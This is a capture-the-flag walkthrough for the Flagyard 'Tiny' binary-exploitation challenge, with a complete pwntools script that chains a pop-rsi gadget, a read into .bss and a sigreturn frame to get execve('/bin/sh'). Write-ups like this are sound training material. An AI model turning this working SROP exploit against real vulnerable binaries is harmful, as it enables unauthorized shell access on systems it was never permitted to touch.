 ```yaml
---
title: "Flagyard - Tiny"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Flagyard - Tiny
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Tiny](https://flagyard.com/labs/training-labs/13/challenges/3f614fb4-65b8-48a3-894a-3e918a6d182d)|
|Category:|PWN|

# 01. Description
## Introduction
This task comes from the challenge platform [Flagyard](https://flagyard.com/) and is marked as **easy**. However, the solution requires creative techniques and in-depth knowledge of exploitation concepts. While the binary is small and lacks traditional protections, the limited set of gadgets and syscall handling makes this challenge more intricate than it initially appears.
{: .text-justify}

## Binary Information

### **Checksec Results**
```plaintext
   Arch:       amd64-64-little
   RELRO:      No RELRO
   Stack:      No canary found
   NX:         NX unknown - GNU_STACK missing
   PIE:        No PIE (0x400000)
   Stack:      Executable
   RWX:        Has RWX segments
   Stripped:   No
```

### **LDD Results**
```plaintext
ldd ./tiny
        not a dynamic executable
```

### **Analysis**
- **No external libraries:** The binary is not dynamically linked; it does not use external shared libraries.
- **Built-in functions:** The binary contains internal implementations of `read`, `write`, and a `gadget` symbol. This indicates custom syscall handling.
- **No stack protections:** The binary lacks stack canaries, RELRO, and NX, making exploitation theoretically easier.
- **One useful gadget:** The only usable gadget is `pop rsi; ret`, significantly limiting the available ROP chain options.

---

## Time Spent on the Exploit
I spent several hours working on this solution. Despite the binary being named "tiny," it was far from simple. The challenge does not involve traditional buffer overflow vulnerabilities. Instead, you construct ROP chains directly while supplying data to the binary.
{: .text-justify}
Due to the lack of useful gadgets (with only `pop rsi` being helpful), the exploit heavily relies on `sigreturn` to gain full control over the registers. Crafting the right approach to manipulate syscalls and use a minimal set of gadgets required significant effort and debugging.
{: .text-justify}
---
## Solve in Python
```python
from pwn import *  # Include pwntools library

# Set up context for the exploit
context.update(arch='x86_64', os='linux')  # Set architecture and OS for pwntools
context.terminal = ['wt.exe', 'wsl.exe']   # Use Windows Terminal with WSL

# Load the binary
binary = context.binary = ELF("./tiny", checksec=False)

# Determine whether to connect locally or remotely
if args.REMOTE:
    p = remote('nc 34.252.33.37 32435'.split()[1], 32435)  # Remote connection
else:
    p = process(binary.path)  # Local process

# Gadgets and addresses
pop_rsi = binary.sym["gadget"]          # Resolve the symbol for the pop_rsi gadget
bss = 0x0000000000402008                # Address of the writable .bss section
read = 0x000000000040103c               # Modified read function to ignore unnecessary registers
syscall = 0x000000000040102d            # syscall gadget with ret

# Prepare the SigreturnFrame for sigreturn-oriented programming (SROP)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b            # Set rax to 59 for execve
frame.rdi = bss             # Set rdi to point to /bin/sh in .bss
frame.rsi = 0x0             # Set rsi to NULL (argv)
frame.rdx = 0x0             # Set rdx to NULL (envp)
frame.rip = syscall         # Set rip to the syscall gadget

# Build the ROP payload
# - Load the .bss address into rsi using pop_rsi
# - Call the read function to write "/bin/sh" into .bss
# - Prepare the sigreturn frame to set registers for execve
payload = (
    p64(pop_rsi) + p64(bss) + p64(read) +  # Load bss into rsi for the read syscall
    p64(syscall) + bytes(frame)           # Trigger the sigreturn syscall with the frame
)

p.sendafter(b"rop me:", payload)          # Send the payload
                                          # Includes:
                                          # - Loading bss into rsi
                                          # - Calling read to populate bss with "/bin/sh"
                                          # - Preparing the sigreturn frame to set registers

p.send(b"/bin/sh" + b"\x00" * 8)          # Send "/bin/sh" to bss and ensure rax = 15 for sigreturn
                                          # Creates the string "/bin/sh" and prepares for execve

p.interactive()                           # Switch to interactive mode to access the shell
```
## Explanation of How the Exploit Works

### **Binary Setup**
The binary lacks standard protections, which makes it theoretically exploitable. However, it compensates for this with very limited gadgets and built-in syscall handling, requiring a creative approach using Sigreturn-Oriented Programming (SROP).
{: .text-justify}
### **Step-by-Step Explanation**
1. **Dynamic Resolution of Gadgets:**
   - The `pop rsi` gadget is dynamically resolved using `binary.sym["gadget"]`. This makes the exploit more robust to changes in the binary.

2. **Writable Memory Section:**
   - The `.bss` section (address `0x402008`) is used as a writable location to store the `/bin/sh` string.

3. **Data Injection (`/bin/sh`):**
   - The string `/bin/sh` is sent in a separate line along with null bytes (`\\x00`). This operation writes `/bin/sh` to `.bss` and sets `rax = 15` (number of bytes read by the `read` syscall).

4. **ROP Chain Execution:**
   - The payload first loads `.bss` into `rsi` and calls `read`. After sending `/bin/sh`, execution "returns" to the main payload in `sendafter`. At this point:
     - A syscall is executed with `rax = 15`, triggering `sigreturn`.
     - The frame on the stack configures the registers for the final `execve` syscall.

5. **Executing the `execve` Syscall:**
   - The `execve` syscall is executed with the configured registers, launching an interactive shell.
```plaintext
p.sendafter(p64(pop_rsi)+p64(bss)+p64(read)                      p64(syscall)+bytes(frame))
                                          ⬊                      ⬈
          							             p.send(b"/bin/sh"+b"\x00"*8)      
```

### **Key Takeaways**
- This exploit demonstrates the power of SROP in a minimalistic binary with limited gadgets.
- By using the `sigreturn` syscall, full control over all registers is achieved, bypassing the limitations imposed by the binary's design.
- Despite its simplicity in appearance, this binary requires an advanced understanding of syscall behavior and ROP chains to exploit effectively.

## Summary
This was an interesting challenge. It taught me a new technique, patience, and the importance of not giving up. Despite its minimalistic design, the task required a deep understanding of system calls and exploitation strategies, making it a rewarding learning experience.
{: .text-justify}


